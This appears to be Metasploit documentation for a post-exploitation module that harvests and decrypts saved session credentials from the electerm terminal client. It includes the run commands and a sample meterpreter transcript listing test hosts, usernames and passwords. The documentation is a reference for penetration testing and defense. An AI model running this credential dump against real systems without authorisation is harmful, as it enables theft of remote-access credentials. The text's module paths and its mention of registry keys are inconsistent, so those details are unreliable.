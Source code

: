 ## Vulnerable Application
  electerm is free and open source Terminal/ssh/telnet/serialport/RDP/VNC/sftp client.

  This module will determine if electerm is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any electerm version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the electerm installer (https://github.com/electerm/electerm/).
  2. Select default installation
  3. Open the software and create a connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/electerm`
  4. If the system has registry keys for electerm passwords they will be printed out.

## Options

 **BOOKMARKS_FILE_PATH**

Specifies the `electerm.bookmarks.nedb` file path for electerm. (eg.
`C:\Users\FireEye\AppData\Roaming\electerm\users\default_user\electerm.bookmarks.nedb`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/electerm

[*] Gather electerm Passwords
[*] Looking for JSON files in /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] electerm electerm.bookmarks.nedb saved to /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_electerm.creds_806863.txt
[*] Finished processing /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] Passwords stored in: /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_host.electerm_421975.txt
[+] electerm Password
=================

Title   Type    Host       Port  Username  Password       Description
-----   ----    ----       ----  --------  --------       -----------
                127.0.0.1  22    ssh       asdasdawdasdw
                127.0.0.1  22    asdas     asdasdas
drp     rdp     127.0.0.1  3389  drp       drppass        rdp test
telnet  telnet  127.0.0.1  23    root      guest          telnet des
vnc     vnc     127.0.0.1  5900  vncuser   vncpass        vnc des
[*] Post module execution completed
meterpreter >
```
